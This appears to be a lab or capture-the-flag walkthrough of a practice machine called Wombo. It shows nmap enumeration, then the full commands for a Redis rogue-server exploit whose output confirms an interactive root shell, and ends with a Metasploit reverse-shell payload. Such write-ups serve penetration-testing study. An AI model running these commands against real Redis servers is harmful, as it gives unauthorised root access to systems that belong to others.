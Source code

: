 # Wombo Walkthrough
### Summary

We'll exploit a remote code execution vulnerability in a Redis data store to gain root access to this target.

### Enumeration
##### Nmap

Let's begin with a full nmap TCP scan.
```bash
kali@kali:~$ sudo nmap -p- 192.168.83.214
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-02 04:04 EST
Nmap scan report for 192.168.83.214
Host is up (0.063s latency).
Not shown: 65529 filtered ports
PORT      STATE  SERVICE
22/tcp    open   ssh
53/tcp    closed domain
80/tcp    open   http
6379/tcp  open   redis
8080/tcp  open   http-proxy
27017/tcp open   mongod
```
Port 6379 is identified as redis. Let's run a more aggressive scan against that port.
```bash
kali@kali:~$ sudo nmap -p 6379 -sV -A 192.168.83.214
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-02 04:09 EST
Nmap scan report for 192.168.83.214
Host is up (0.068s latency).

PORT     STATE SERVICE VERSION
6379/tcp open  redis   Redis key-value store 5.0.9
```
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.82 seconds

This scan indicates that this is version 5.0.9 of the Redis store.
##### Exploitation
RCE https://github.com/A1vinSmith/redis-rogue-server

This should allow us to easily create a rogue redis server that leads to an elevated shell. Let's go ahead and clone this repository to our local kali host and move into that directory.
```bash
┌──(kali㉿kali)-[~]
└─$ git clone https://github.com/A1vinSmith/redis-rogue-server.git
Cloning into 'redis-rogue-server'...
remote: Enumerating objects: 83, done.
remote: Total 83 (delta 0), reused 0 (delta 0), pack-reused 83
Receiving objects: 100% (83/83), 242.26 KiB | 2.72 MiB/s, done.
Resolving deltas: 100% (19/19), done.

┌──(kali㉿kali)-[~]
└─$ cd redis-rogue-server                  

┌──(kali㉿kali)-[~/redis-rogue-server]
└─$ ls
exp.so  LICENSE  README.md  RedisModulesSDK  redis-rogue-server.py
```
Following the instructions in the repository, we can try to spawn a root shell using the python script redis-rogue-server.py.
```bash
┌──(kali㉿kali)-[~/redis-rogue-server]
└─$ python3 redis-rogue-server.py --rhost 192.168.120.111 --rport 6379 --lhost 192.168.118.14 --lport 6379
______         _ _      ______                         _____                          
| ___ \       | (_)     | ___ \                       /  ___|                         
| |_/ /___  __| |_ ___  | |_/ /___   __ _ _   _  ___  \ `--.  ___ _ ____   _____ _ __ 
|    // _ \/ _` | / __| |    // _ \ / _` | | | |/ _ \  `--. \/ _ \ '__\ \ / / _ \ '__|
| |\ \  __/ (_| | \__ \ | |\ \ (_) | (_| | |_| |  __/ /\__/ /  __/ |   \ V /  __/ |   
\_| \_\___|\__,_|_|___/ \_| \_\___/ \__, |\__,_|\___| \____/ \___|_|    \_/ \___|_|   
                                     __/ |                                            
                                    |___/                                             
@copyright n0b0dy @ r3kapig

[info] TARGET 192.168.120.111:6379
[info] SERVER 192.168.118.14:6379
[info] Setting master...
[info] Setting dbfilename...
[info] Loading module...
[info] Temerory cleaning up...
What do u want, [i]nteractive shell or [r]everse shell: i
[info] Interact mode start, enter "exit" to quit.
[<<] id
[>>] =uid=0(root) gid=0(root) groups=0(root)
[<<] whoami
[>>] root
[<<] 
```
Success! We now have root access on the target system.

# For revshells if wanted
### Trying to use high port on Metasploit
### Trying different payloads for the exploit
```
show payloads
set payload /linux/x64/reverse_shell_tcp
```